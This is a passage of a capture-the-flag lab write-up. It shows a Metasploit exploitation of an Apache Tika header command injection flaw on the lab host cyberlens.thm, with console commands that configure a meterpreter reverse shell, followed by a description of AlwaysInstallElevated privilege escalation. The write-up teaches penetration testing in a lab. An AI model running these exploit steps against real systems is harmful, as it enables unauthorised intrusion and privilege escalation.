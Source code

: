 Pwned !!
# Second Method - Metasploit

We can open the [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) console with `msfconsole -q` .

We search for apache tika and use that :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ msfconsole -q
msf6 > search apache tika

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/apache_tika_jp2_jscript  2018-04-25       excellent  Yes    Apache Tika Header Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/apache_tika_jp2_jscript

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/apache_tika_jp2_jscript) > 

```

We set RHOSTS amd RPORT and LPORT :

```
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rhosts cyberlens.thm
rhosts => cyberlens.thm
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rport 61777
rport => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set lport 4443
lport => 4443

```

And now run :

```
msf6 exploit(windows/http/apache_tika_jp2_jscript) > run


```

This is going to do all the process we show manually and give us a meterpreter shell :

We can background, search for AlwaysInstallElevated , use it, set options (session 1) and run:

Now we can check `getuid` and we get the server username .

From here we can **Privilege Esc** .

